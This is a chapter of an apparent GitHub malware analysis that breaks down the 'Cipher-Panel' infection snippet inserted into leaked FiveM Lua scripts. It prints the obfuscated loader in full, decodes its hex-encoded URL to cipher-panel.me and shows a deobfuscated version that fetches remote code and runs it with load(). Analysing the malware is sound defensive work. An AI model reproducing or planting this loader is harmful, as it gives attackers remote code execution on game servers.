 ## Chapter 1 (Original Infection)
This chapter contains the breakdown of the original infection code used by "Cipher-Panel".

### Introduction
The original infection code is a very simple snippet of code that can be inserted into any FiveM script that is used as a payload to download the malicious code.

The normal method for the sharing of this is through leaked scripts uploaded by users that only intend to gain access and extort people for money.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```

Just from looking at this code, we can gather a fair amount of information.
  - The code is designed to look clean by using function names that aren't associated with malicious code such as **random_char**.
  - They are hiding function names encoded with UTF-8 in an array that they convert rather than keeping function names in all of the malicious functions.

This being said we have to map the values to better understand the code. This is done by turning `Enchanced_Tabs[13]` into the corresponding index in the UTF-8 encoded array. We will also take this chance to normalize the field names and remove the junk code used to obscure the real functionality.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Encoded: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Plain Text: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
Enchanced_Tabs[10] = PerformHttpRequest;
Enchanced_Tabs[11] = assert; (Junk Code)
Enchanced_Tabs[12] = server; (Junk Code)
Enchanced_Tabs[13] = load; (Junk Code)
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

#### Final Mapped Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local s = assert(load(responseBody))
        if (d == nil) then return end
        s()
    end)
```

The final mapped code continuously calls an HTTP request to an endpoint that "Cipher-Panel" provides to paid users. The `responseBody` field returns the body from the endpoint that contains lua code for the next step of this fuck fest.

[(Chapter 2 (What's obfuscation anyways?)](https://github.com/ericstolly/)
